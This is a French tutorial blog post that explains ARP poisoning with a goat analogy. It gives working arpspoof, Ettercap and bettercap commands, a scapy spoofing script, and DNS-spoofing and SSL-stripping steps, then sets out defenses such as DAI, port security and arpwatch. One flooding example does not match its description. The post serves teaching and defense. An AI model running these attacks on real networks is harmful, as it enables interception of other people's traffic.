





# ARP poisoning : ou comment j'ai appris que mon réseau WiFi était aussi sécurisé qu'un enclos à chèvres

## L'histoire de comment mes chèvres m'ont enseigné la sécurité réseau

Laissez-moi vous raconter une histoire. Un matin, en nourrissant mes chèvres (oui, j'élève des chèvres, on a déjà établi que mes choix de vie sont discutables), j'ai observé quelque chose de fascinant : Ragnar, ma chèvre alpha nommée d'après un pilote EVE Online, s'était positionnée stratégiquement entre la mangeoire et les autres chèvres.

Toutes les chèvres pensaient qu'elles allaient directement à la mangeoire. En réalité, elles passaient toutes par Ragnar qui décidait qui mangeait quoi et quand. Elle était devenue le point de passage obligé. Un proxy chèvre, si vous voulez.

C'est exactement ce qu'est l'ARP poisoning. Sauf qu'au lieu de contrôler l'accès à la nourriture, l'attaquant contrôle l'accès à Internet. Et au lieu de chèvres affamées, ce sont vos données qui transitent par lui.

Bienvenue dans le monde merveilleux de l'ARP poisoning, où votre position sur le réseau local devient une arme.

## Le problème fondamental : ARP fait confiance à tout le monde

Pour comprendre l'ARP poisoning, il faut d'abord comprendre comment les ordinateurs communiquent sur un réseau local.

### Comment ça marche normalement

Vous êtes sur un réseau WiFi. Vous voulez visiter google.com. Votre ordinateur connaît l'adresse IP (172.217.22.14), mais pour envoyer les données physiquement, il a besoin de l'adresse MAC (l'identifiant matériel) de la prochaine étape : votre routeur.



**Le problème** : Votre PC ne connaît pas la MAC du routeur. Il doit la demander.

### Le protocole ARP : naïf mais efficace

ARP (Address Resolution Protocol) résout ce problème avec une simplicité désarmante :



Votre PC envoie un message en broadcast : "Hé tout le monde, qui a l'IP 192.168.1.1 ?"

Le routeur répond : "C'est moi ! Voici ma MAC : 11:22:33:44:55:66"

Votre PC enregistre ça dans sa **table ARP** et s'en souvient pour quelques minutes.

### Le piège : ARP est trop confiant

Voici le problème qui change tout : **ARP accepte les réponses non sollicitées**.

Même si personne n'a rien demandé, n'importe qui sur le réseau peut envoyer : "Hé, l'IP 192.168.1.1, c'est moi maintenant, ma MAC est XX:XX:XX:XX:XX:XX"

Et votre PC va l'enregistrer. Sans vérifier. Sans se poser de questions.

C'est comme si n'importe qui pouvait venir chez vous et dire "Salut, je suis ton nouveau facteur, donne-moi ton courrier" et vous le croyiez sur parole.



## L'attaque : devenir l'homme du milieu (Woman in the Middle dans mon cas)

Imaginez cette configuration simple :


Maintenant, j'arrive avec mon laptop sur le même WiFi. Je lance une attaque ARP poisoning.

### Étape 1 : Empoisonner votre table ARP

J'envoie des ARP replies falsifiées à votre PC :

```
ARP Reply: 192.168.1.1 est à MA:CH:IN:E_:AT:TA (ma MAC)
```

Votre PC met à jour sa table ARP :


### Étape 2 : Empoisonner le routeur aussi

Pour que le trafic de retour passe aussi par moi, j'envoie au routeur :

```
ARP Reply: 192.168.1.100 est à MA:CH:IN:E_:AT:TA (ma MAC)
```

### Résultat : je suis au milieu


Vous pensez parler au routeur. Le routeur pense parler à vous. En réalité, tout passe par moi.

Je peux :
- Voir tout votre trafic (mots de passe non chiffrés, URLs visitées, etc.)
- Modifier vos requêtes et réponses
- Injecter du contenu malveillant
- Rediriger vers de faux sites

**Exactement comme Ragnar avec les chèvres** : tout le monde pense accéder directement à la mangeoire (Internet), mais tout passe par elle (moi).

## Le code : faire ça en pratique

### Disclaimer légal important

**⚠️ ATTENTION ⚠️** : Ce qui suit est UNIQUEMENT à des fins éducatives. L'ARP poisoning sur un réseau que vous ne possédez pas est **ILLÉGAL** dans la plupart des pays. Ne faites ça que sur votre propre réseau de test, avec des machines que vous possédez.

Sérieusement. J'ai une fois testé ça sur le WiFi de mon bureau sans prévenir l'IT. Ils ont failli me virer. Ne soyez pas comme moi.

### Configuration du lab de test

Vous avez besoin de :
- **Machine attaquant** : Linux (Kali, Ubuntu, peu importe)
- **Machine victime** : N'importe quoi (PC, téléphone, IoT)
- **Routeur/Gateway** : Votre box Internet
- Tous sur le même réseau local



### Outil 1 : arpspoof (le classique)

Installé par défaut sur Kali Linux, dans le package `dsniff`.

```bash
# Installer sur Ubuntu/Debian
sudo apt-get update
sudo apt-get install dsniff

# Vérifier les interfaces réseau
ip addr show
# Supposons que votre interface WiFi est wlan0

# Activer le forwarding IP (pour relayer le trafic)
echo 1 | sudo tee /proc/sys/net/ipv4/ip_forward

# Lancer l'attaque
# Dire à la victime que le routeur est nous
sudo arpspoof -i wlan0 -t 192.168.1.100 192.168.1.1

# Dans un autre terminal, dire au routeur que la victime est nous
sudo arpspoof -i wlan0 -t 192.168.1.1 192.168.1.100
```

**Explications** :
- `-i wlan0` : interface réseau à utiliser
- `-t 192.168.1.100` : cible (target)
- `192.168.1.1` : adresse IP à usurper

Vous devriez voir :

```
aa:bb:cc:dd:ee:ff 0:11:22:33:44:55 0806 42: arp reply 192.168.1.1 is-at aa:bb:cc:dd:ee:ff
aa:bb:cc:dd:ee:ff 0:11:22:33:44:55 0806 42: arp reply 192.168.1.1 is-at aa:bb:cc:dd:ee:ff
...
```

Ces messages ARP falsifiés sont envoyés en continu pour maintenir l'empoisonnement.

### Vérification côté victime

Sur la machine victime (Windows) :

```cmd
# Voir la table ARP
arp -a

# Avant l'attaque :
Interface: 192.168.1.100
  Adresse Internet      Adresse physique      Type
  192.168.1.1          11-22-33-44-55-66     dynamique

# Pendant l'attaque :
Interface: 192.168.1.100
  Adresse Internet      Adresse physique      Type
  192.168.1.1          aa-bb-cc-dd-ee-ff     dynamique  ← MAC changée !
```

Sur Linux/Mac :

```bash
# Voir la table ARP
arp -n
# ou
ip neigh show
```

### Outil 2 : Ettercap (avec interface graphique)

Ettercap est plus user-friendly et offre plein de fonctionnalités supplémentaires.

```bash
# Installer
sudo apt-get install ettercap-graphical

# Lancer l'interface graphique
sudo ettercap -G
```

**Configuration dans l'interface** :

1. Menu `Sniff` → `Unified sniffing` → Choisir `wlan0`
2. Menu `Hosts` → `Scan for hosts` (attendre quelques secondes)
3. Menu `Hosts` → `Hosts list` (voir tous les appareils sur le réseau)
4. Sélectionner la victime → `Add to Target 1`
5. Sélectionner le routeur → `Add to Target 2`
6. Menu `Mitm` → `ARP poisoning` → Cocher `Sniff remote connections`
7. Menu `Start` → `Start sniffing`

Boom. Vous êtes au milieu. Ettercap affichera tout le trafic intercepté en temps réel.

### Outil 3 : bettercap (le moderne)

Bettercap est le couteau suisse moderne pour ce genre d'attaques.

```bash
# Installer
sudo apt-get install bettercap

# Lancer
sudo bettercap -iface wlan0
```

Dans la console interactive :

```bash
# Scanner le réseau
net.probe on

# Voir les machines découvertes
net.show

# Activer l'ARP spoofing
set arp.spoof.targets 192.168.1.100
arp.spoof on

# Activer le sniffer
net.sniff on

# Voir le trafic HTTP
http.proxy on

# Remplacer des images par des chèvres (oui, vraiment)
set http.proxy.script /usr/share/bettercap/caplets/rickroll.js
```

Pour s'amuser (sur votre propre réseau uniquement), créez un script `goats.js` :

```javascript
// goats.js - Remplacer toutes les images par des chèvres
function onResponse(req, res) {
    if(res.ContentType.indexOf('image/') == 0) {
        res.Status = 301;
        res.Headers['Location'] = 'https://example.com/cute-goat.jpg';
    }
}
```

```bash
# Dans bettercap
set http.proxy.script /path/to/goats.js
http.proxy on
```

Résultat : toutes les images que la victime essaie de charger sont remplacées par des chèvres. C'est hilarant (et terrifiant).

### Script Python DIY : pour comprendre vraiment

Voici un script Python simple qui fait de l'ARP spoofing. À des fins **purement éducatives**.

```python
#!/usr/bin/env python3
"""
ARP Spoofing Script - ÉDUCATIF UNIQUEMENT
NE PAS UTILISER SUR DES RÉSEAUX QUI NE VOUS APPARTIENNENT PAS
"""

from scapy.all import *
import time
import sys

def get_mac(ip):
    """Obtenir l'adresse MAC d'une IP via ARP"""
    arp_request = ARP(pdst=ip)
    broadcast = Ether(dst="ff:ff:ff:ff:ff:ff")
    arp_request_broadcast = broadcast / arp_request
    answered_list = srp(arp_request_broadcast, timeout=1, verbose=False)[0]
    
    if answered_list:
        return answered_list[0][1].hwsrc
    return None

def spoof(target_ip, spoof_ip):
    """
    Envoyer un paquet ARP falsifié
    Dire à target_ip que spoof_ip a notre MAC
    """
    target_mac = get_mac(target_ip)
    if not target_mac:
        print(f"[!] Impossible de trouver la MAC de {target_ip}")
        return False
    
    # Créer paquet ARP
    # op=2 signifie ARP reply
    # pdst = destination (la victime)
    # hwdst = MAC destination
    # psrc = IP source (qu'on veut usurper)
    # hwsrc = notre MAC (par défaut, pas besoin de spécifier)
    
    packet = ARP(op=2, pdst=target_ip, hwdst=target_mac, psrc=spoof_ip)
    send(packet, verbose=False)
    return True

def restore(target_ip, gateway_ip):
    """
    Restaurer les vraies valeurs ARP
    """
    target_mac = get_mac(target_ip)
    gateway_mac = get_mac(gateway_ip)
    
    if target_mac and gateway_mac:
        packet = ARP(op=2, pdst=target_ip, hwdst=target_mac, 
                     psrc=gateway_ip, hwsrc=gateway_mac)
        send(packet, count=4, verbose=False)

def main():
    if len(sys.argv) != 3:
        print("Usage: sudo python3 arp_spoof.py <target_ip> <gateway_ip>")
        print("Exemple: sudo python3 arp_spoof.py 192.168.1.100 192.168.1.1")
        sys.exit(1)
    
    target_ip = sys.argv[1]
    gateway_ip = sys.argv[2]
    
    print(f"[*] Activation du forwarding IP...")
    os.system("echo 1 > /proc/sys/net/ipv4/ip_forward")
    
    print(f"[*] ARP Spoofing démarré")
    print(f"[*] Cible: {target_ip}")
    print(f"[*] Gateway: {gateway_ip}")
    print(f"[*] CTRL+C pour arrêter\n")
    
    packets_sent = 0
    
    try:
        while True:
            # Empoisonner la victime (dire que le gateway est nous)
            spoof(target_ip, gateway_ip)
            
            # Empoisonner le gateway (dire que la victime est nous)
            spoof(gateway_ip, target_ip)
            
            packets_sent += 2
            print(f"\r[*] Paquets envoyés: {packets_sent}", end="")
            
            time.sleep(2)  # Envoyer toutes les 2 secondes
            
    except KeyboardInterrupt:
        print("\n\n[*] Arrêt détecté. Restauration des tables ARP...")
        restore(target_ip, gateway_ip)
        restore(gateway_ip, target_ip)
        print("[*] Tables ARP restaurées. Au revoir !")

if __name__ == "__main__":
    if os.geteuid() != 0:
        print("[!] Ce script doit être exécuté en root (sudo)")
        sys.exit(1)
    main()
```

**Utilisation** :

```bash
# Installer scapy
pip3 install scapy

# Lancer (avec sudo)
sudo python3 arp_spoof.py 192.168.1.100 192.168.1.1
```

**Ce que fait ce script** :

1. Active le forwarding IP (pour relayer le trafic)
2. Envoie en boucle des paquets ARP falsifiés
3. À l'arrêt (CTRL+C), restaure les vraies tables ARP

### Capturer le trafic

Une fois le spoofing actif, utilisez Wireshark pour voir tout :

```bash
# Lancer Wireshark
sudo wireshark

# Choisir votre interface (wlan0)
# Filtres utiles :
# http - voir requêtes HTTP non chiffrées
# dns - voir les requêtes DNS
# tcp.port == 80 - trafic web non chiffré
```

Vous verrez passer :
- URLs visitées
- Requêtes DNS (quels sites sont visités)
- Contenu HTTP non chiffré
- Cookies (parfois)

**Ce que vous ne verrez PAS** : le contenu HTTPS (chiffré). Dieu merci.

## Les variantes d'attaque

### 1. Gratuitous ARP flooding

Inonder le réseau de faux paquets ARP pour tout casser :

```bash
# Avec hping3
sudo hping3 -2 -c 10000 -p 68 --destport 67 --rand-source 192.168.1.255
```

### 2. ARP spoofing ciblé avec DNS spoofing

Combiner avec du DNS spoofing pour rediriger vers de faux sites :

```bash
# Dans bettercap
set dns.spoof.domains example.com,*.example.com
set dns.spoof.address 192.168.1.50  # Votre IP
dns.spoof on
arp.spoof on
```

Maintenant, quand la victime visite example.com, elle arrive sur VOTRE serveur web.

### 3. SSL stripping

Forcer les connexions HTTPS à redescendre en HTTP :

```bash
# Avec bettercap
set http.proxy.sslstrip true
http.proxy on
arp.spoof on
```

La victime pense visiter `https://bank.com`, mais voit `http://bank.com`. Son navigateur ne bronche pas (pas de certificat invalide), et vous interceptez tout en clair.

**Note** : HSTS rend ça plus difficile maintenant. Mais pas impossible.

## Se protéger : la défense en profondeur

### 1. Static ARP entries (solution manuelle)

Figer les entrées ARP critiques :

```bash
# Linux
sudo arp -s 192.168.1.1 11:22:33:44:55:66

# Windows
arp -s 192.168.1.1 11-22-33-44-55-66
```

Maintenant, cette entrée ne peut plus être modifiée par des ARP replies malveillantes.

**Problème** : impossible à l'échelle (imaginez gérer ça pour 1000 machines).

### 2. Port security sur les switches

Sur les switches managés (entreprises) :

```
# Configuration Cisco
interface GigabitEthernet0/1
 switchport port-security
 switchport port-security maximum 2
 switchport port-security mac-address sticky
 switchport port-security violation restrict
```

Le switch apprend les MACs légitimes et rejette les autres.

### 3. Dynamic ARP Inspection (DAI)

Le switch vérifie chaque paquet ARP contre une base de données de confiance :

```
# Configuration Cisco
ip dhcp snooping
ip dhcp snooping vlan 10
ip arp inspection vlan 10
```

### 4. Détection avec arpwatch

Monitorer les changements dans les tables ARP :

```bash
# Installer
sudo apt-get install arpwatch

# Configurer pour envoyer des alertes email
sudo vi /etc/arpwatch.conf

# Démarrer
sudo systemctl start arpwatch
```

Dès qu'une MAC change pour une IP connue, vous recevez un email :

```
hostname: victim-pc
ip address: 192.168.1.100
ethernet address: aa:bb:cc:dd:ee:ff
ethernet vendor: <unknown>
old ethernet address: 11:22:33:44:55:66
old ethernet vendor: Cisco Systems
```

### 5. Utiliser HTTPS partout

Le conseil le plus important : **HTTPS protège contre l'interception du contenu**.

Même si quelqu'un fait de l'ARP spoofing et voit tout votre trafic, le contenu HTTPS reste chiffré.



Installez HTTPS Everywhere dans votre navigateur.

### 6. VPN sur les réseaux non fiables

Sur un WiFi public (café, aéroport) :

```bash
# Se connecter à un VPN de confiance
# Tout le trafic est chiffré AVANT de sortir de votre machine
```

Même avec ARP poisoning, l'attaquant ne voit qu'un tunnel VPN chiffré.

### 7. Détection manuelle

Vérifier périodiquement votre table ARP :

```bash
# Linux
arp -n

# Chercher des doublons (même MAC pour plusieurs IPs)
arp -n | awk '{print $3}' | sort | uniq -c | grep -v "^      1"
```

Si une MAC apparaît pour plusieurs IPs, c'est suspect.

## Le test : êtes-vous vulnérable ?

### Test rapide sur votre réseau

```bash
# 1. Noter votre table ARP actuelle
arp -a > before.txt

# 2. Lancer un scan pour détecter l'ARP spoofing
sudo arp-scan --interface=wlan0 --localnet

# 3. Comparer
arp -a > after.txt
diff before.txt after.txt
```

### Outil de détection : XArp

```bash
# Windows : télécharger XArp
# Linux : utiliser arpwatch ou arpalert

sudo apt-get install arpalert
sudo arpalert -d -i wlan0
```

Laissez tourner. Si quelqu'un fait de l'ARP spoofing, vous serez alertée.

## L'analogie finale avec les chèvres

Mes chèvres m'ont appris beaucoup sur la sécurité réseau, et pas seulement avec Ragnar qui interceptait la nourriture.

**Leçon 1** : La confiance sans vérification est dangereuse. ARP fait confiance à n'importe quelle réponse. Mes chèvres font confiance à n'importe qui avec de la nourriture. Résultat : chaos.

**Leçon 2** : La position stratégique est puissante. Ragnar entre la mangeoire et les autres chèvres. L'attaquant entre vous et Internet. Le contrôle vient de la position.

**Leçon 3** : La surveillance fonctionne. Quand je surveille mes chèvres, je vois immédiatement quand Ragnar fait des siennes. Arpwatch fait pareil pour le réseau.

**Leçon 4** : Les protections physiques aident. J'ai fini par ajouter plusieurs mangeoires. Les switches avec port security font pareil : ils limitent les points d'accès.

## Ce qu'il faut retenir

L'ARP poisoning est :
- **Facile** : Avec les bons outils, c'est trivial
- **Efficace** : Donne un accès complet au trafic
- **Détectable** : Si on sait quoi chercher
- **Limité par HTTPS** : Le chiffrement protège le contenu

**Pour attaquer (éthiquement)** :
1. Lab isolé uniquement
2. arpspoof / ettercap / bettercap
3. Activer IP forwarding
4. Capturer avec Wireshark

**Pour se défendre** :
1. HTTPS partout
2. VPN sur réseaux publics
3. Monitoring (arpwatch)
4. Port security (entreprises)
5. Vérifier régulièrement sa table ARP

## Conclusion

L'ARP poisoning est une de ces attaques qui me fascine par sa simplicité. Aucune exploitation complexe, aucun buffer overflow, aucune injection SQL. Juste l'exploitation d'un protocole qui fait trop confiance.

C'est élégant. C'est terrifiant. C'est comme Ragnar qui s'est positionnée stratégiquement entre la nourriture et les autres chèvres, sauf qu'ici, c'est entre vous et Internet.

Depuis que j'ai compris ça, je regarde les réseaux WiFi publics différemment. Cet étudiant dans le coin du café avec son laptop ? Peut-être qu'il code innocemment. Ou peut-être qu'il voit tout ce que vous faites en ligne.

C'est pour ça que j'utilise un VPN sur tous les réseaux publics. Et que je surveille ma table ARP comme je surveille mes chèvres : constamment et avec suspicion.

Parce que dans les deux cas, quelqu'un essaie toujours de se mettre au milieu.

---

*PS : Oui, Ragnar continue de contrôler l'accès à la nourriture. Non, je n'ai pas trouvé de solution. Elle est plus maligne que moi. Un peu comme les attaquants réseaux.*

*PPS : Si vous testez ça sur votre réseau domestique et que votre famille ne peut plus aller sur Internet, n'oubliez pas d'activer l'IP forwarding. J'ai appris ça à mes dépens un dimanche soir. Ma famille n'était pas contente.*

*PPPS : La vraie question éthique : est-ce que remplacer toutes les images par des photos de mes chèvres est vraiment du piratage, ou est-ce rendre service à l'humanité ? Je laisse la réponse ouverte.*
